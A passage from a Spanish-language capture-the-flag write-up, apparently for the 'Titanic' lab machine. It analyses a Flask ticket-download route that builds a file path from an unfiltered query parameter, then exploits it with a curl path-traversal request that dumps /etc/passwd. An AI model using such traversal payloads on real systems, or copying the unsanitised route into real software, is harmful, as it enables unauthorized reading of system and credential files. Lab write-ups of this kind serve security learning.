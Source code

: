 ```python
    ticket_id = str(uuid4())
    json_filename = f"{ticket_id}.json"
    json_filepath = os.path.join(TICKETS_DIR, json_filename)

    with open(json_filepath, 'w') as json_file:
        json.dump(data, json_file)

    return redirect(url_for('download_ticket', ticket=json_filename))

@app.route('/download', methods=['GET'])
def download_ticket():
    ticket = request.args.get('ticket')
    if not ticket:
        return jsonify({"error": "Ticket parameter is required"}), 400

    json_filepath = os.path.join(TICKETS_DIR, ticket)

    if os.path.exists(json_filepath):
        return send_file(json_filepath, as_attachment=True, download_name=ticket)
    else:
        return jsonify({"error": "Ticket not found"}), 404

if __name__ == '__main__':
    app.run(host='127.0.0.1', port=5000)
```

Si observamos el código podemos ver como se maneja la creación de tickets y la descarga de los mismos.

Parecce que toma el input de los campos y crea un fichero json con el contenido de los datos introducidos sin filtrar nada, crea un fichero con un uid pseudo-aleatorio y lo guarda en el directorio tickets.

Para descargar el ticcket utiliza un GET al que se le indica el uid del ticket con un ticket=<uid>.json. y esto, si existe en el directorio tickets, lo descarga, pero no existe ningún tipo de filtrado.

# Explotando el Path Traversal

Sabiendo que el servicio web que realiza la descarga de los tickets no filtra el valor que se le pasa, vamos a intentar explotarlo.

```bash
❯ curl 'http://titanic.htb/download?ticket=../../../etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
```